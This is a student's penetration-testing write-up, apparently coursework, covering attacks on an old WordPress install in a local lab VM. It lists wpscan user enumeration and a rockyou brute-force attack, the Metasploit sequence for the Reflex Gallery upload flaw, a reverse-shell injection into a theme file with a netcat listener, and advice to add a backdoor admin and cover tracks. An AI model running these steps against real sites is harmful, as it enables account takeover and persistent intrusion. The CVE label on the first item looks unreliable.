


# Project 7 - WordPress Pen Testing

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. User Enumeration (CVE-2020-7918)

- [ ] Summary:     
  - Vulnerability types: Insecure direct object reference
  - Tested version: 4.2
  - Fixed version: NOT FIXED
  - Affected source code: (http://wpdistillery.vm/wp-login.php)
  - Tools/Resources Used:
    https://www.kali.org/get-kali/#kali-virtual-machines
    https://www.kali.org/tools/wpscan
    https://wpscan.com/
    password list: rockyou.txt
  - Techniques: BruteForce, Dictionary Attack, Credential Stuffing
  - Preventative Action: Password Complexity, Multi-Factor Authentication (MFA), Password Manager, Account Lockout Policy
  - Commands used:
    sudo gunzip /usr/share/wordlists/rockyou.txt.gz (extract and move for ease of use)
    wpscan -h (Display the Help)
    wpscan --url http://wpdistillery.vm (Reconnasissance)
    wpscan --url http://wpdistillery.vm --enumerate u (Finding Usernames)
    wpscan --url http://wpdistillery.vm -U ~/Desktop/wpusers.txt -P ~/Desktop/rockyou.txt (BruteForce Attack)
  

- [ ] Walkthrough:
  Where's the Beef ?!?

  A Successful Attack against all 5 User Accounts took 2min and 11 seconds !?!

  The Damage... We got User credentials, PII, and our very own Administrative Account !?!

- [ ] Steps to recreate:
  - Try common usernames in the TARGET's login page, guess common passwords. Maybe we'll get some helpful info. Lets PLAN our attack.
  - Kali is a great toolbox. Lets use our handy dandy tool wpSCAN to gather information on a TARGET. Perfome RECONNAISSANCE.
  - After some poking and proding with WPSCAN lets use our collected INTEL to test our might. Commense Brute Force Attack!!! 
  - Have I been pwned? Lets use the compromised credentials. GAIN ACCESS!!!
  - Lets cause some damage...hmmm how about we just add a way to get back in. Add our own administrator ;). MAINTAIN ACCESS
  - Considerations: COVER YOUR TRACKS!!!
  
### 2. Vulnerable Plugin Reflect Gallery (CVE-2015-4133)

- [ ] Summary: 
  - Vulnerability types: Arbitrary File Upload
  - Tested in version: 3.1.3
  - Fixed in version: 3.1.4
  - Tools/Resources Used:
  https://www.kali.org/tools/metasploit-framework/
  exploit/unix/webapp/wp_reflexgallery_file_upload
  https://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/
  https://pentestmonkey.net/tools/web-shells/php-reverse-shell
  https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
  https://phoenixnap.com/kb/vim-commands-cheat-sheet
  https://www.kali.org/tools/netcat/

 - Commands used:
    wpscan --url http://wpdistillery.vm (Reconnasissance)
    service postgresql start (for msf)
    msfdb init (for msf)
    msfconsole (msf)
    db status (for msf)
    search reflex (msf exploit)
    use 0 (select module)
    show options
    set RHOST wpdistillery.vm (target)
    set LHOST 192.168.33.101 (Kali VM)
    run
    shell
    whoami
    hostname
    pwd 
    ls
    ../
    pwd 
    edit /var/www/public/wp-content/themes/twentyfifteen/archive.php
    :%d
    :wq
    exit
    nc -nvlp 80
  
  
- [ ] Walkthrough:
  Ole Reliable 

  I've always wanted a Swiss Army Knife

  I'll be listening for the Door

- [ ] Steps to recreate: 
- Scan the Target for a weakness.
- Bring out the right tool for the job. Use Metasploit Framework (msf) to attempt an exploit.  
- Take aim and shoot. Are we in? Cool, leave a way to Maintain Access. Inject a reverse shell so our target does all the work.
- Now, we wait and listen. 
- You are now an agent of chaos

### 3. (Required) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types:
  - Tested in version:
  - Fixed in version: 
- [ ] GIF Walkthrough: 
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...

[ScreenToGif](https://www.screentogif.com/) for Windows

## Notes

Setting up the pen testing environment was really challenging. I had a tough time getting windows 10 to play nice with vagrant and virtual box. I persevered, through trial and error. My saving grace was utilizing the snapshot feature when things went wrong. This was key in troubleshooting and documenting solutions along the way. My advice for my fellow colleagues and academics, don’t get discouraged, our failures are our greatest teachers.

Solutions for Common Isssues:

- https://gitforwindows.org/ (required for windows, install it)
- https://notepad-plus-plus.org/ (use to edit config.yml & hosts file as administrator)
- Create a restore point in Virtual Box once wpdistillery is up and running to revert ( Windows Powershell Failure to reboot vm issue, exploits not functioning issue)
- https://www.virtualbox.org/wiki/Download_Old_Builds_6_1 (for MacOS network adapter issues and KERNAL driver not installed)
- For MacOS check Security & Privacy: Allow apps downloaded from: SELECT app store and identified developers (make sure virtual box isnt being blocked)
- For MacOS in VirtualBoX settings disable Audio (virtual machine aborts issue)

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
